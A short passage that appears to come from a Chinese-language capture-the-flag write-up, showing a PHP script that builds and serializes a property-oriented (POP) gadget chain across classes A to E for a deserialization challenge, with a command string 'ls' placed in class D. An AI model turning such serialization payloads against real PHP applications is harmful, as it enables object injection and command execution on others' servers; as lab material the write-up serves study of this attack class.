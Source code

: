 然后就是代码打印出序列化后的pop链：  

	<?php
	class A
	{
	    public $A1;
	    public $A2;
	    public function __construct()
	    {
	     $this->A2['godmi']=new C();
	    }
	} 
	class B
	{
	    public $B1;
	    public $B2;
	    public function __construct()
	    {
	        $this->B1=new A();
	    }
	} 
	class C
	{
	    public $C1;
	    public $C2;
	    public $C3;
	    public function __construct()
	    {
	        $this->C1=new E();
	        $this->C3='www';
	    } 
	}
	class D
	{
	    public $D1;
	        
	    public function __construct()
	    {
	        $this->D1="ls";
	    }
	}
	class E
	{
	    public $E1;
	    public $E2;
	    public function __construct()
	    {
	        $this->E1=new D();
	        $this->E2='FLAG';
	    }
	} 
	$b=new B();
	$x=serialize($b);
	echo $x;
	?>  

